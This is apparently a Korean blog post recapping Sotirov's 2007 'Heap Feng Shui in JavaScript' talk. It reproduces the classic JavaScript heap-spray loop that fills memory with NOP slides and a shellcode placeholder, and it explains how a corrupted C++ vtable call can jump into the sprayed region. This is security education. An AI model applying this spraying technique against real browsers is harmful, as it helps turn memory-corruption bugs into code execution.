 ```yaml
---
layout: post
title: "Heap Feng Shui in JavaScript"
date: 2014-05-02 15:15:17 +0900
comments: true
categories: 
---
```


Sotirov 의 오래된 발표를 recap 해본다. 적지 않은 내용들이 outdated 되었지만, 가치가 있다.

* [Heap Feng Shui in JavaScript](https://www.blackhat.com/presentations/bh-europe-07/Sotirov/Presentation/bh-eu-07-sotirov-apr19.pdf)
* [Heap Feng Shui in JavaScript](https://www.blackhat.com/presentations/bh-europe-07/Sotirov/Whitepaper/bh-eu-07-sotirov-WP.pdf)
* [Heap Feng Shui in JavaScript](http://www.phreedom.org/research/heap-feng-shui/heap-feng-shui.html)

Sotirov 의 발표를 내멋대로 번역해본다.

### Blazde & SkyLined (2004)

200MB 의 heap 을 spray 하는 코드.

    var nop = unescape("%u9090%u9090");

    // Create a 1MB of NOP instruction followed by shellcode
    // malloc header    string length   NOP slide   shellcode   NULL terminator
    // 32 bytes         4 bytes         x bytes     y bytes     2 bytes

    while (nop.length <= 0x100000/2) nop += nop;

    nop = nop.substring(0, 0x100000 - 32/2 - 4/2 - shellcode.length - 2/2);

    var x = new Array();
    for (var i=0; i<200; i++)
        x[i] = nop + shellcode;

일단 1 MB (1024 * 1024 bytes) 이상의 string 을 만들고, `substring()` 통해서 system heap 에 alloc 한다.
unicode 라서 VirtualAlloc() chunk header 가 32 bytes. JavaScript 이 string 헤더가 4 bytes. NULL terminator 가 2 bytes.
substring() 의 단위가 unicode 라서 '나누기 2' 를 해준다.
`new Array()` 에 반복해서 assign 해줌으로서 system heap 에 200 MB 를 alloc 한다.
JavaScript object 는 JavaScript heap 에 alloc 되고 JavaScript string 은 default process heap 에 alloc 된다.

이제 windbg 를 통해서 이 spray 된 스트링들이 메모리 0x00000000 ~ 0x7fffffff 어디에 뿌려졌는지 찾아야 한다.
그리고, Browser 의 C++ object vtable 등을 오염시킬때 어떤 값으로 오염시켜야 저 영역으로 튀어나갈지 테스트해야 한다.

1. 만약 다음과 같이 virtual function 을 호출하는 코드가 있다고 하자. 
2. 그리고 우리는 브라우저의 C++ object 를 어떻게든 overwrite 할 수 있다고 하자.
3. 그리고 메모리의 특정 영역대를 JavaScript 을 통한 heap spray 로 write 할 수 있다고 하자.

Virtual function 을 호출하는 코드 샘플이다.

    mov ecx, dword ptr [eax]    ; get the vtable address
    push eax                    ; pass c++ this pointer as the first argument
    call dword ptr [ecx+08h]    ; call the function at offset 0x8 in the vtable
